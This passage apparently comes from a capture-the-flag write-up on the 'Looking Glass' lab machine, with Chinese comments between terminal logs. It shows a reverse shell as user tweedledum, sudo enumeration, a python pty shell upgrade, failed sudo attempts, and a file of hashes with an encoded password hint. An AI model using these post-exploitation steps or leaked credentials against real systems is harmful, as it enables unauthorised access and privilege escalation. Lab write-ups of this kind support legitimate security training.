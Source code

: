 bash: no job control in this shell
tweedledum@looking-glass:~$ whoami
whoami
tweedledum
tweedledum@looking-glass:~$ id
id
uid=1002(tweedledum) gid=1002(tweedledum) groups=1002(tweedledum)
tweedledum@looking-glass:~$ 

```
tweedledum用于bash的root权限，但是需要密码

```
tweedledum@looking-glass:~$ sudo -l
sudo -l
Matching Defaults entries for tweedledum on looking-glass:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tweedledum may run the following commands on looking-glass:
    (tweedledee) NOPASSWD: /bin/bash

$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ sudo /bin/bash
sudo /bin/bash
[sudo] password for tweedledum: 

Sorry, try again.
[sudo] password for tweedledum: 

Sorry, try again.
[sudo] password for tweedledum: 


```


在此目录下有两个文件
```
$ ls
ls
humptydumpty.txt  poem.txt
$ cat humptydumpty.txt
cat humptydumpty.txt
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
$ cat poem.txt
cat poem.txt
     'Tweedledum and Tweedledee
      Agreed to have a battle;
     For Tweedledum said Tweedledee
      Had spoiled his nice new rattle.
